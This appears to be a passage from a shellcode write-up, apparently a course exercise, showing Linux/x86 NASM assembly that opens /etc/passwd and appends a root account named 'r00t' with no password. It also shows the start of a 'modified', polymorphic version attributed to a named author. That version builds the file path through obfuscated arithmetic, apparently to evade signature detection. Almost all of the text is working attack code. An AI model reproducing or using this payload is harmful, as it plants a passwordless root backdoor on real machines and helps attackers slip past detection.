           mov ebx, eax

     ; write(ebx, "r00t::0:0:::", 12)

          push byte 4
          pop eax
          xor edx, edx
          push edx
          push 0x3a3a3a30 ; :::0
          push 0x3a303a3a ; :0::
          push 0x74303072 ; t00r
          mov ecx, esp
          push byte 12
          pop edx
          int 0x80

     ; close(ebx)

          push byte 6
          pop eax
          int 0x80

     ; exit()

          push byte 1
          pop eax
          int 0x80

**Modified shellcode:**

    ; MODIFIED SHELLCODE
    ; Filename: addr00tuser-poly.nasm
    ; Author: Jeremy Catelain
    ;69 byte shellcode to add root user 'r00t' with no password to /etc/passwd
    ;for Linux/x86


    section .text

          global _start

     _start:

     ; open("/etc//passwd", O_WRONLY | O_APPEND)

          push byte 5
          pop eax
          xor ecx, ecx
          push ecx
          mov esi, 0x53666162
          add esi, 0x11111211
          mov dword [esp-4], esi ; dwss
          sub esi, 0x3074444
          mov dword [esp-8], esi ; ap//
          sub esp, 8
          push 0x6374652f
          mov ebx, esp
          mov cx, 02001Q
          int 0x80
